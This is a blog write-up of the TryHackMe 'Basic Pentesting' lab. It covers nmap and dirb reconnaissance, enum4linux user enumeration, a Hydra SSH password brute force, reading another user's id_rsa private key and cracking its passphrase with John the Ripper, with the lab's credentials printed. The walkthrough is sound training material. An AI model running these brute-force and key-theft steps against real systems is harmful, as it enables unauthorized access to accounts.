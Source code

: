 ```yaml
---
layout: single
title: "TryHackMe Basic Pentesting"
categories: TryHackMe
tag: [TryHackMe, Basic Pentesting]
toc: true
toc_sticky: true
toc_label: 목차
author_profile: false
---
```


##  <img src="C:\Users\hjopy\OneDrive\바탕 화면\Jake\blog\blog\crackernote.github.io\assets\images\그림1.png" alt="그림1" style="zoom:6%;" /> TryHackMe  Basic Pentesting

#### 📜 Basic Pentesting

"Basic Pentesting" is a beginner level pentesting room in TryHackMe.

Let's dive in the room.



#### 📜 Task 1. Find the services exposed by the machine 

I used **Nmap** tool to find the services running on the target system

```python
Nmap -sC -sV [Target_Machine_IP]
```

![image-20230711214849918](/../images/image-20230711214849918.png)

Screenshot 1 (nmap results)

[^Screenshot1]: 



We can see the services are : 

- SSH (Port 22)
- **HTTP (Port 80)**
- **SAMBA (Port 139 & 445)**
- HTTP-Proxy (Port 8080)

​	

#### 📜 Task 2. What is the name of the hidden directory on the web server(enter name without /)? 

I used **dirb** tool to find hidden directories on the web server.

```python
dirb http://[Tartget_IP] /usr/share/wordlists/dirb/common.txt
```

![image-20230712085405301](/../images/image-20230712085405301.png)

​                                                           Screenshot 2 (dirb results)

We can see the hidden directory :  **/development**

Now navigate around the website and development directory on the website.

![image-20230712090011680](/../images/image-20230712090011680.png)

​                                                             Screenshot 3 ("/development" directory)



Now let’s open each texts. We may find something interesting here

![image-20230712103713564](/../images/image-20230712103713564.png)

​                                                                          Screenshot 4 (dev.txt)



![image-20230712103729467](/../images/image-20230712103729467.png)

​                                                                           Screenshot 5 (j.txt)



#### 📜 Task 3. **User brute-forcing to find the username & password**

Here we need to find the username and password. But first we need to determine the users present on our target system.

So we know that samba is running on our target (from Nmap results & text files on the websites)
We can use **enum4linux** tool to enumerate the machine. Syntax for tool is as follows :

```python
enum4linux -e [Target_Machine_IP]
```



![image-20230725101342685](/../images/image-20230725101342685.png)

​                                                              Screenshot 6 (enum4linux results)

Now we can find the users **"kay"** and **"jan"**

From the texts in development folder we analysed that J (or Jan) is having a weak password so it will be easier to brute-force that using our best friend **Hydra.**

So the syntax for hydra for cracking Jan’s password will be :

```python
hydra -l jan -P
/usr/share/wordlists/rockyou.txt ssh://[TARGET_MACHINE_IP]
```

![image-20230725103422716](/../images/image-20230725103422716.png)

​                                                              Screenshot 7 (hydra results)



#### 📜 Task 4. What is the username?

*Answer* : **jan** (from Screenshot 7)



#### 📜 Task 5. What is the password?

*Answer* : **armando** (from Screenshot 7)



#### 📜 Task 6. **What service do you use to access the server(answer in abbreviation in all caps)?** 

*Answer* : **ssh** 

```
ssh jan@[TARGET_MACHINE_IP]
```



#### 📜 Task 7. Enumerate the machine to find any vectors for privilege escalation. 

We can login with "jan" but  we don't have permission pass.bak file

![image-20230725104228803](/../images/image-20230725104228803.png)

​                                                              Screenshot 8 (Permission denided)



So we should escalate privilege to get loot level but we don't have the password for user kay. 

However, we can use ssh key of kay and then finding the passphrase to access the machine as kay.



**First,** Get the id_rsa key from kay’s directory and save it in our system.

```python
cd /home/kay
cd .ssh
cat id_rsa
```

![image-20230725201431731](/../images/image-20230725201431731.png)

​                                                              Screenshot 9 (id_rsa)

Copy this key and save it in our system by name "id_rsa.txt"



**Second,** Cracking the key for passphrase with **"John The Ripper"**

```
python3 /opt/john/ssh2john.py id_rsa.txt > decrypted.txt
```

This will convert our Private SSH key into john form so that it can be cracked further

```
john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt
```

This will give us our phrase : **beeswax**



**Third,** Accessing as kay

Go to jan’s shell and write this command (because if we try to do this outside the ssh of jan or on our system shell it will not allow that)

```
ssh -i /home/kay/.ssh/id_rsa kay@[TARGET_MACHINE_IP]
```

![image-20230725203252755](/../images/image-20230725203252755-169028756001912.png)

​                                                              Screenshot 10 (Login with kay)

And finally we can see **"pass.bak"** file

![image-20230725203505982](/../images/image-20230725203505982.png)

​                                                              Screenshot 11 (pass.bak)
